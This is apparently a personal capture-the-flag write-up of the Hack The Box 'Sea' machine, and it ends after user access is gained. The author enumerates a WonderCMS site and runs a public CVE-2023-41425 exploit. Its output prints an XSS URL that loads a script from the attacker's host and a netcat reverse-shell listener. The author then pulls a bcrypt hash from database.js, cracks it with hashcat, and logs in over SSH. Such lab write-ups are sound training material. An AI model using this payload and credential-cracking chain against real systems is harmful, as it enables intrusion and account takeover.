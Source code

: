 ```yaml
---
title: "Sea machine HTB"
date: 1337-01-04 00:00:00 
categories: [Hack The Box,Notes]
tags: [HTB,CTFs,OSCP]
---
```

![alt text](../pics/Sea.png)

# Enumeration
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ nmap -sVC 10.10.11.28 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 05:23 EEST
Nmap scan report for 10.10.11.28
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.73 seconds
```
Okay now we see only ssh and http so lets try to access the website from the browser \
We got this cool looking site 
![alt text](../pics/image-2.png)
if we checked with wappalyzer we will find it was wrote using PHP
![alt text](../pics/image-3.png) \
We also found contact.php page 
![](../pics/image-4.png)
Let's try to dir brute force using gobuster
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/0                    (Status: 200) [Size: 3650]
/themes               (Status: 301) [Size: 230] [--> http://sea.htb/themes/]
/data                 (Status: 301) [Size: 228] [--> http://sea.htb/data/]
/plugins              (Status: 301) [Size: 231] [--> http://sea.htb/plugins/]
/messages             (Status: 301) [Size: 232] [--> http://sea.htb/messages/]
/404                  (Status: 200) [Size: 3341]
```
After checking these pages all of them are forbidden and nothing useful :
![alt text](../pics/image-5.png)
okay let's try to brute force on themes dir 
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/themes/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/themes/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              aspx,html,txt,asp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/404                  (Status: 200) [Size: 3341]
/%20                  (Status: 403) [Size: 199]
/%20.asp              (Status: 403) [Size: 199]
/%20.aspx             (Status: 403) [Size: 199]
/%20.html             (Status: 403) [Size: 199]
/%20.txt              (Status: 403) [Size: 199]
/bike                 (Status: 301) [Size: 235] [--> http://sea.htb/themes/bike/]
```
and here we found /bike/ but after checking it, it was also forbidden so lets brute for this path again /bike/ but let's use different tool this time like `feroxbuster` since i just downloaded it and new to it xD
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ feroxbuster --url http://sea.htb/themes/bike/
                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/themes/bike/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
[####################] - 4m     90010/90010   0s      found:5       errors:803    
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/ 
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/img/ 
[####################] - 4m     30000/30000   130/s   http://sea.htb/themes/bike/css/ 
```
oh we got `/version`,`/summary`,`/license`and `css/`, Let's check them all
![alt text](../pics/image-5%20copy.png)
Lets google really quickly what is 
`turboblack`
![alt text](../pics/image-6.png)
Okay the site is running cms called `wondercms`
# Search for public vulnerabilities
Now We can do something like this googling on the cms name 
![alt text](../pics/image-7.png)
Keep in mind the version we got is `3.2.0`
Then we found this script 
![alt text](../pics/image-8.png)
# Exploition
Lets git clone it and use it 
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.14.18 -lport 4444 -sport 8000
[+] Set up a nc listener: nc -lnvp 4444
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.14.18:8000/xss.js"></script><form+action="
[+] Serving at http://10.10.14.18:8000
```
lets send this link the contact form we saw early on at `contact.php`
![alt text](../pics/image-9.png)
then we got this 
![alt text](../pics/image-10.png)
which is mean we got RCE lets mess with the shell we got 
# Getting-User
![alt text](../pics/image-11.png)
okay we can read the flag let's try to gather some other informations, Lets check the website files 
```json
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/06\/17 03:19:58": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1",
            "2024\/07\/31 15:14:10": "127.0.0.1"
        },
        "lastModulesSync": "2025\/06\/17",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
```
we got this password :
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
this is bcrypt hash lets try to break it using hashcat
![alt text](../pics/image-12.png)
```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Tue Jun 17 06:34:26 2025 (20 secs)
Time.Estimated...: Tue Jun 17 06:34:46 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      171 H/s (5.89ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3168/14344385 (0.02%)
Rejected.........: 0/3168 (0.00%)
Restore.Point....: 3024/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: iamcool -> heaven1
Hardware.Mon.#1..: Util: 80%

Started: Tue Jun 17 06:34:21 2025
Stopped: Tue Jun 17 06:34:47 2025
```
and we break it now we need to find a user who is using this password to login with his creds
Let's try to login using `geo` as username and try to login using `amay`
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ ssh amay@sea.htb      
The authenticity of host 'sea.htb (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sea.htb' (ED25519) to the list of known hosts.
amay@sea.htb's password: 
Last login: Mon Aug  5 07:16:49 2024 from 10.10.14.40
```
we are in babyyy now i think we got the user flag let's try to get root
